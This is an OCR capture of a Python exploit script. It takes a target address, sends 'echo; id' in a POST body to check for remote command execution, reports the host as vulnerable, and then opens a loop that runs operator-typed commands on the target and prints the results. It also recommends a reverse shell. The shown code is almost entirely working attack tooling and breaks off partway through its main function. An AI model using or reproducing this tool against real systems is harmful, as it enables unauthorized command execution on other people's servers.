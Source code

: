 ```
if len(sys.argv) < 2 :
    print( 'Use: python3 file.py ip:port ' )
    sys.exit()

def end():
    print("\t\033[1;91m[!] Bye bye !")
    time.sleep(0.5)
    sys.exit(1)

def commands(url,command,session):
    directory = mute_command(url,'pwd')
    user = mute_command(url,'whoami')
    hostname = mute_command(url,'hostname')
    advise = print(Fore.YELLOW + 'Reverse shell is advised (This isn\'t an interactive shell)')
    command = input(f"{Fore.RED}\u256d\u2500{Fore.GREEN + user}@{hostname}: {Fore.BLUE + directory}\n{Fore.RED}\u2570\u2500{Fore.YELLOW}$ {Style.RESET_ALL}")    
    command = f"echo; {command};"
    req = requests.Request('POST', url=url, data=command)
    prepare = req.prepare()
    prepare.url = url  
    response = session.send(prepare, timeout=5)
    output = response.text
    print(output)
    if 'clear' in command:
        os.system('/usr/bin/clear')
        print(header)
    if 'exit' in command:
        end()

def mute_command(url,command):
    session = requests.Session()
    req = requests.Request('POST', url=url, data=f"echo; {command}")
    prepare = req.prepare()
    prepare.url = url  
    response = session.send(prepare, timeout=5)
    return response.text.strip()


def exploitRCE(payload):
    s = requests.Session()
    try:
        host = sys.argv[1]
        if 'http' not in host:
            url = 'http://'+ host + payload
        else:
            url = host + payload 
        session = requests.Session()
        command = "echo; id"
        req = requests.Request('POST', url=url, data=command)
        prepare = req.prepare()
        prepare.url = url  
        response = session.send(prepare, timeout=5)
        output = response.text
        if "uid" in output:
            choice = "Y"
            print( Fore.GREEN + '\n[!] Target %s is vulnerable !!!' % host)
            print("[!] Sortie:\n\n" + Fore.YELLOW + output )
            choice = input(Fore.CYAN + "[?] Do you want to exploit this RCE ? (Y/n) : ")
            if choice.lower() in ['','y','yes']:
                while True:
                    commands(url,command,session)  
            else:
                end()       
```